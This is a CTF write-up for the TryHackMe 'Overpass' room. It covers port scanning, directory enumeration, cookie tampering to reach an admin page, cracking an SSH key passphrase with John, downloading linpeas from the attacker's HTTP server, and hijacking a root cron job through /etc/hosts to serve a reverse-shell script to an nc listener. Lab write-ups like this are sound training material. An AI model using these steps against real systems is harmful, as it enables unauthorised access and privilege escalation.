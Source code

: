OVERPASS:THM
First pass it was to do a Nmap scan of the all ports with the command:

        nmap -p- overpass.thm

it had the ports 22 and 80 open.
after the nmap I run the gobuster to do a directory's enum:
 
        gobuster dir -u http://overpass.thm -w /usr/share/wordlists/dirbuster/medium.txt

The results are several but the most important was the /admin.
Ctrl+u to see the HTML code, in the code there was a script that it does the client-side controll
with the cookie session, so in the dev tools, storage i did the cookie tampering in order to access 
in the login

the name that it was altered it was statuscookie.

once I was entering I could obtain the RSA private key for the SSH, with the command:

        ssh -i james.key james@overpass.thm

I tried to access but there was a passphrase to crack, that it was  in the private key, in order to crack
I will do John but before I must convert the RSA private key in a hash:

        ssh2john james.key
        /Hash result/
        john james.hash
        passwd: james13

So after that I enter in the account and i did a priviliege escalation with linpeash.sh

        python3 -m http.server 80 (in my machine)
        curl "http://10.10.10.10:80/linpeash.sh > linpeash.sh" (in the james account)

Then after run linpeas.sh it found a vuln in the chrontab that it runs a BuildScript.sh every minute.
we must use for priviliege escalation.
First of all I modiefied /etc/hosts (The internal DNS) i add my ip and the overpass.thm in order to decieve
the Curl in the crontab.
Then in my desktop I add two folder /downloads/src and inside /src i add a Buildscript.sh with a reverse shell
bin -i inside with my ip address and the port 4444.

        nc -lnvp 4444 (socket in listening at the port 4444)
        in the /desktop i run Pyhton3 -m http.server 80

Finaly I got a reverse shell and take the flag.
          
